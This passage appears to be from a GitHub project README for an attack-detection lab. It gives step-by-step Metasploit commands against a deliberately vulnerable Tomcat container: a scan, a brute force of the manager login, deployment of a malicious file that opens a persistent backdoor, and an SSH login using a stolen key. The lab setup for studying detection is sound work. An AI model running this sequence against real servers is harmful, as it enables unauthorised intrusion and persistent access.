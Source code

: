 # Execute Metasploit Attack to Tomcat Server

- Enter inside Metasploit container: 
`docker exec -it metasploit bash`

- Run pre-exploit script to scan target system and identify vulnerabilities:\
`./scripts/check-pre-exploit.sh vulnerable-mts 8080`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-preexploit.png>)

- Run first exploit to get tomcat manager dashboard credentials:\
`./msfconsole -r ./scripts/tomcat_mgr_login.rc 8080 vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_login.png>)

- Run the second exploit to deploy a malicious file in the tomcat server which opens a persistent backdoor on the target system:\
`./msfconsole -r ./scripts/tomcat_deploy_attack.rc 8080 vulnerable-mts tomcat tomcat`\
_("vulnerable-mts" arg is the docker address of the target container, "8080" args is the tomcat port to scan, "tomcat" and "tomcat" are username and password credentials you get ith the previous step)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit_tomcat_mgr_deploy.png>)

- Save the ssh-key given in ouput (i.e: "/root/.msf4/loot/20230318162758_default_172.30.0.6_id_rsa_776480.txt")

- Run the script to enter target system (ubuntu container):\ 
`./scripts/ssh-connection.sh <key> vulnerable-mts`\
_("vulnerable-mts" arg is the docker address of the target container, <key> args is the ssh key you get with the previous step)_

![](<https://github.com/enrimon15/attack-detection-elk/blob/main/images/metasploit-ssh.png>)
